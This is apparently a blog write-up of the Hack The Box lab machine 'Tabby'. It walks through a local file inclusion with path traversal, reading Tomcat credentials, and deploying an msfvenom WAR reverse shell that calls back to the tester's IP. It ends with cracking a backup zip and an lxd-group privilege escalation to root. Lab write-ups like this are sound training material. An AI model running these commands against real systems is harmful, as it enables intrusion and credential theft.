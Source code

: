 ```yaml
---
date: 2020-06-21 19:04:28
layout: post
title: "Tabby"
subtitle:
description: Easy Machine from Hackthebox 
image:
optimized_image:
category: Hackthebox
tags: hackthebox
author: cirius
paginate: false
---
```

Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 00:40 IST
Nmap scan report for www.megahosting.htb (10.10.10.194)
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   316.63 ms 10.10.14.1
2   322.75 ms www.megahosting.htb (10.10.10.194)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```
So it had 3 ports open 22,80 and 8080.

I accessed the port 80 which gave a simple website.
![placeholder](/writeup/assets/img/tabby/website.png "website")
Most links on the website lead to nowhere except one, news.
The link was trying to access megahosting.htb, so added it to my hosts file.
![placeholder](/writeup/assets/img/tabby/hosts.png "hosts")
The link was like
```url
http://megahosting.htb/news.php?file=statement
```
The file parameter was vulnerable to Local File Inclusion.
![placeholder](/writeup/assets/img/tabby/lfi.png "LFI")
But it didn't give much as I was not able to do log posioning to get shell.

Moved on to the port 8080 and found that there are two login forms. I tried to bruteforce my way in but failed.

On the homepage it was written that tomcat-users.xml file contained the username and password. I tried to access the file at /etc/tomcat9/conf/tomcat-users.xml through the LFI but it gave nothing.

I tried to know whose permission I have as LFI by reading the /proc/self/status.
```url
http://megahosting.htb/news.php?file=/../../../../../../../../../proc/self/status
```
This told me that I have privilege of apache2 during LFI.

Installed tomcat9 locally through
```bash
apt-get install tomcat9
```
and tried to look for files that are readable by everyone by visiting the directories created after installing tomcat9.
![placeholder](/writeup/assets/img/tabby/tomcat.png "findtomcat")
Inside ***/usr/share/tomcat9/etc*** I found tomcat-users.xml that was readable by everyone.
Accessed the file on the machine through LFI and got nothing. Then i remembered that it is a XML file so it will not print anything untill it is stated in it.
So opened the source of webpage and got the login information.
![placeholder](/writeup/assets/img/tabby/login.png "Login")
The login details worked for host-manager and there was not much I can do with that. But I the xml file stated that tomcat user had one more role manager-script.

The manager-script role allows user to do same tasks as manager but thorugh commands not through GUI.

I created a .war payload through msfvenom and uplaoded it to get the revrese shell.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.32 LPORT=8888 -f war > shell.war
curl 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/shell' --upload-file shell.war
```
Accessed the file at
```url
http://10.10.10.194:8080/shell
```
and got the reverse shell as tomcat user.

Ran the following command to make the shell tty. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerating thruogh the machine I found a zipped file in /var/www/html/files/ and the file belonged to ash user on the machine.
Transferred the file to local machine by first encoding it to base64 and then decoding it locally.
```bash
base64 -w 0 16162020_backup.zip
#Copied the hash and then on local terminal
echo -n base64enocdedtext | base64 -d > backup.zip
```
The zipped file was encrypted, so I used john to crack the password.
```bash
zip2john.py backup.py > hash
john --wordlist=rockyou.txt hash
```
Found the password.
Unzipped the file and found that nothing interetsing inside.
Used the password to switch user to ash and it worked.

Found the user.txt

Ran ***id*** and found that i ash user is member of lxd group.
![placeholder](/writeup/assets/img/tabby/groups.png "Groups")
From <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Link</a> this wonderful article got the steps needed to escalate privileges.

```bash
lxc init
#Did the same as mentioned in article
```
and then on local machine
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
Uploaded the generated tar.gz file to the machine and then executed following commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
![placeholder](/writeup/assets/img/tabby/root.png "root")

Found all the files of the machine inside the conatainer's /mnt/root directory as stated in the article.

Found root.txt.


